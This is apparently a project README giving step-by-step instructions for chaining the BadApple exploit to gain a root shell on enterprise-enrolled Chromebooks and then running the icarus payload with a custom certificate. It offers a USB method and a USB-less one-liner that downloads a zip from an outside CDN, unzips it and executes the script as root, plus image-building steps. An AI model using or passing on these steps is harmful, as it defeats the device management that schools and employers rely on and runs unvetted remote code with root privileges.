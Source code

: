 # icarus but for badapple
# UPDATED TO HAVE THE NEW ICARUS CERT
pretty straightforward process. this acts as a way to execute the icarus payload initally meant to be executed in shims. \
BadApple is an exploit to gain ACE(arbitary code execution) as root in developer mode whilst enterprise enrolled. SH1mmer does the same thing, but some boards have been keyrolled.

## steps
now, you can choose 2 different ways to carry this out.
1. requires usb, no wifi
2. usbless, requires wifi

### 1. usb method
1. from the Releases page of this repository, download the image provided, which is named `icarus_ba.img`
2. use chromebook recovery utility or balenaEtcher or dd or your preferred usb flashing tool to flash the image to a thumbdrive
3. use BadApple to obtain a shell
4. plug in the usb stick with the flashed image
5. find the usb stick identifier with `fdisk -l` 
6. mount the image with `mkdir /icarus && mount /dev/sdX /icarus`, where `X` is your usb identifier, e.g. `/dev/sda`
7. now, to execute the icarus payload, run `cd /icarus && ./icarus_ba.sh`

### 2. usbless method
1. enter miniOS
2. when the frecon screen loads, click Next
3. next, connect to an available wifi network
4. when the wifi has connected, DO NOT PROCEED. we now use BadApple to obtain a shell
5. run these commands to start the icarus payload: `mkdir icarus && cd icarus && curl -O cdn.fanqyxl.net/icarus_ba.zip && unzip icarus_ba.zip && ./icarus_ba.sh`

## build a badapple icarus image
this is useless for the average user, only use this if you want to customize PKIMetadata or icarus_ba.sh

1. cd into the root directory of this repository
2. run `sudo ./image_create.sh`.
3. a image will be placed in the root directory of this repo called `icarus_ba.img`

it is an ext4 image that has an original size of 100MB, which is then shrinked to its minimum after adding PKIMetadata and icarus_ba.sh.

## credits
- appleflyer: finding BadApple, making the original payload
- xmb9/stella: helping with stateful detection by telling me about cgpt
- sophie: telling me about the issue with stateful detection
- kilo: making this usbless
- fanqyxl: helping by making this usbless, and for generating new icarus certs.
